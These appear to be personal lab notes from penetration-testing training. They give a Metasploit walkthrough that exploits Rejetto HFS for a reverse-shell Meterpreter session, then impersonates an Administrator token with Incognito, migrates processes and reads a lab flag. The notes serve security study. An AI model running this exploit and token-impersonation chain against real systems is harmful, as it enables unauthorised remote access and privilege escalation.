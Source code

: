 # Access Token Impersonation

**Access Token**\
In Windows, access token is like and **ID card** for a process.\
It tells the system *who I am (user),what group I belong* and *what permissions I have*.

**Token Impersonation**\
If a privileged process or service allows impersonation, I might be able to hijack their token.\
For example, if a service is running as SYSTEM and allows impersonation, I can elevate to SYSTEM.

### Tools
**rejetto** module\
Is used to exploit a vulnerability in the **Rejetto HTTP File Server (HFS)**\
It targets vulnerable versions of HFS and **execute remote commands** on the server by abusing a feature in HFS that misinterprets certain HTTP requests.

**pgrep explorer** command\
`pgrep` stands for "**process grep**" - it serches for processes by name.\
`explorer` is the name o the process I'm looking for -  specifically `explorer.exe` which is the main **desktop interface and user shell** in Windows

**load incognito** command\
Is a **Meterpreter command** that loads the **Incognito extension** - this lets me **play with Windows access tokens**.\
**Steps** (simply)\
Load extension -> List available tokens -> Impersonate


### Practice
```bash
# start Metasploit
msf6 > search rejetto
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.29.63
RHOSTS => 10.0.29.63

# Run the module
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.38.2:4444 
[*] Using URL: http://10.10.38.2:8080/U9MNFV1p66
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /U9MNFV1p66
[*] Sending stage (176198 bytes) to 10.0.29.63
[!] Tried to delete %TEMP%\EMQqYsRFbGsT.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.38.2:4444 -> 10.0.29.63:49755) at 2025-07-17 06:54:50 +0530
[*] Server stopped.

# Check the privilege 
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE    <- Here!

# Seach explorer.exe process
meterpreter > pgrep explorer
4000

# Migration failed because I don't have privilege to do
meterpreter > migrate 4000
[*] Migrating from 4952 to 4000...
[-] core_migrate: Operation failed: Access is denied.
```

```bash
# Check available privileges
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

# If loading failed, run the module again
meterpreter > load incognito
Loading extension incognito...
[*] 10.0.29.63 - Meterpreter session 1 closed.  Reason: Died

[-] Failed to load extension: No response was received to the core_loadlib request.

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.38.2:4444 
[*] Using URL: http://10.10.38.2:8080/lDHtPgFg5
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /lDHtPgFg5
[*] Sending stage (176198 bytes) to 10.0.29.63
[!] Tried to delete %TEMP%\YYzmOWa.vbs, unknown result
[*] Meterpreter session 2 opened (10.10.38.2:4444 -> 10.0.29.63:49780) at 2025-07-17 06:58:48 +0530
[*] Server stopped.

# Load extension
meterpreter > load incognito
Loading extension incognito...Success.

# List available tokens
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator      <- Administrator token!
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

# Impersonate the token
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator

# Seccess
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator

meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > getprivs
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.

# Try to migrate session again
meterpreter > pgrep explorer
4000
meterpreter > migrate 4000
[*] Migrating from 1640 to 4000...
[*] Migration completed successfully.

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

# Successfully impersonated privilege
```
Find the flag
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Users\Administrator\Desktop

04/22/2021  06:37 AM    <DIR>          .
04/22/2021  06:37 AM    <DIR>          ..
04/22/2021  07:27 AM                32 flag.txt
               1 File(s)             32 bytes
               2 Dir(s)  16,054,771,712 bytes free

C:\Users\Administrator\Desktop>get flag.txt
get flag.txt
'get' is not recognized as an internal or external command,
operable program or batch file.

meterpreter > cat C:\\Users\\Administrator\\Desktop\\flag.txt
x28c832a39730b7d46d6c38f1ea18e12meterpreter > 
```